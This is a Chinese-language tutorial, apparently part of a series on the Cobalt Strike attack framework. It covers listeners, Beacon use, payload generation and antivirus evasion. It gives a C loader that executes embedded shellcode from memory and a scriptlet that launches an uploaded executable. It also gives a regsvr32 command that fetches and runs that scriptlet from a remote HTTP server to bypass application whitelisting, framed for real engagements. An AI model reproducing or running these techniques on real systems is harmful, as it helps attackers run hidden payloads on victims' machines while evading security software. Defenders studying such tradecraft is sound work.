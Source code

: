 #0x00 Listeners介绍

在本版本Cobalt Strike 3.12中 提供了如图 8种Listeners(监听器)
![Cobalt Strike ](./img/2.1.png)

>windows/beacon_dns/reverse_dns_txt
windows/beacon_dns/reverse_http
windows/beacon_http/reverse_http
windows/beacon_https/reverse_https
windows/beacon_smb/bind_pipe
windows/foreign/reverse_http
windows/foreign/reverse_https
windows/foreign/reverse_tcp

* beacon_x 系列为Cobalt Strike 自身，包括dns,http,https,smb四种方式的监听器
* foreign 系列为外部监听器 通常与MSF或者Armitage联动。

值得一提是在Cobalt Strike 3.13版本增加了一个新的Listeners(windows/beacon_tcp/bind_tcp)  它支持linuxSSH会话。本文不使用3.13版本具体更新内容可以观看[官网](https://blog.cobaltstrike.com/2019/01/02/cobalt-strike-3-13-why-do-we-argue/)


# 0x01 创建一个服务

创建一个服务首先配置一个监听器 本文介绍http(https) 
![Cobalt Strike ](./img/2.2.png)
选择 Packages>Windows Executable
![Cobalt Strike ](./img/2.3.png)
其中可以生成 EXE,DLL 32位系统或者64位，但是大多数我们生成Payload来做免杀
![Cobalt Strike ](./img/2.4.png)
上线成功 在 Event Log处 出现上线信息 一个团队当然离不开交流 当你在Event Log直接输出内容后 全团队可见 ，输入`/msg name xxx` 给指定用户

#0x02 Beacon

右键目标`interact`来使用`Beacon`，我们用它来执行各种命令，在第一课已经讲到
`help` 获得所有命令及其简介 `help 具体命令` 来获得详细用法。在Cobalt Strike中它的心跳默认是60s 这会让我们执行的命令响应很慢，在下载文件面前更为明显，所以我在测试时会把时间降低一点 。大家可以根据实战环境来调节，建议不要太快，不然流量会相对明显。

![Cobalt Strike ](./img/2.5.png)
在这里我`sleep 5` 同时介绍在beacon中 如果想对目标进行命令管理 需要在前面加上shell 如`shell whoami` 非常简单

# 0x03 Payload Generator

用 Packages>Windows Executable生成的服务很容易被AV干掉，所以我们一般生成shellcode 然后自己写个加载器加载 

打开Packages>Payload Generator 
![Cobalt Strike ](./img/2.6.png)

不得不说Cobalt Strike非常温馨，给我们提供了各个语言的Payload 后期我们讲会讲到如何运用Payload来做一些简单的免杀，这里我们使用 C语言来写一个简单的加载器运行我们的Payload ，C语言写这些确实很简单。

* 用到的编译器是vc++6.0

```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	((void(*)(void))&shellcode)();
}
```
编译记得使用Release模式而不是Debug 生成，其中shellcode加载器方法来自于网络，后期关于免杀将会讲到其他，本文顺带将一下白名单Regsvr32执行。

# 0x04 白名单执行

讲到payload生成服务 不得不讲下关于生成dll文件 利用window的Regsvr32程序

## Regsvr32简介：
Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。下面是常用参数，其他参数请见[链接](https://support.microsoft.com/en-us/help/249873/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages )

```
/u 取消注册

/s 指定 regsvr32 安静运行，在成功注册/反注册DLL文件的前提下不显示结果提示框。

/n 指定不调用 DllRegisterServer。此选项必须与 /i 共同使用。

/i:cmdline 调用 DllInstall 将它传递到可选的 [cmdline]。

```
## 第一种
命令 `regsvr32  c:\artifact.dll` 

![Cobalt Strike ](./img/2.7.png) 

## 第二种
通过 sct 远程执行绕过防病毒这里前提需要将 exe 文件上传到目标主机 本文上传到c:\test.exe
payload.sct文件内容如下:
```
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k c:\\test.exe"); 
]]>
 
</script>
</registration>
</scriptlet>
```
上面代码可以上传到Github等白名单域名 本文使用Cobalt Strike自带的服务来搭建 顺便介绍功能

打开>Web Drive-by>Host File 
![Cobalt Strike ](./img/2.8.png) 

然后执行
`regsvr32 /u /n /s /i:http://192.168.130.130:80/payload.sct scrobj.dll`

执行效果目标机 
![Cobalt Strike ](./img/2.9.png) 


# 0x05 文末

本章感觉有点简单， 在介绍监听器与payload的时候顺带提了下免杀，循序渐进把CS的功能都介绍下，让每一篇都有一些营养，由于本人笔记本不行开2个虚拟机都卡了，所以靶机有所混合，大家不要介意。这次环境的搭建浪费了很多时间。（用时5小时）

### 本文如有错误，请及时提醒，以免误导他人
